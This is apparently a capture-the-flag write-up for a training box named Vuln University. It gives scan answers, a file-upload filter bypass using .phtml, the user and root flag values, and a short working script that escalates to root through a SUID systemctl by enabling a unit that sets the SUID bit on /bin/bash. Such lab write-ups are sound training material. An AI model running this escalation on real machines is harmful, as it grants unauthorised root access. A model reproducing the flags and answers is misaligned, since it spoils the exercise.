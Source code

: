 # Vuln University-File upload&SUID systemctl privilege escalation

```
export IP=10.10.4.149
```
# Material needed

1. Interesting directory: /internal

2. Privilege escalation

```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash" # SETUID binary
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
```

# Tasks

1. Scan the box, how many ports are open? 6 

2. What version of the squid proxy is running on the machine? 3.5.12

3. How many ports will nmap scan if the flag -p-400 was used? 400

4. Using the nmap flag -n what will it not resolve? DNS

5. What is the most likely operating system this machine is running? Ubuntu

6. What port is the web server running on? 3333

7. What is the directory that has an upload form page? /internal/

8. Try upload a few file types to the server, what common extension seems to be blocked? .php

9. Run this attack, what extension is allowed? .phtml

10. What is the name of the user who manages the webserver? bill

11. What is the user flag?

```
8bd7992fbe8a6ad22a63361004cfcedb
```

12. On the system, search for all SUID files. What file stands out? /bin/systemctl

13. Become root and get the last flag (/root/root.txt)

```
a58ff8579f0a9270368d33a9966c7fd5
```
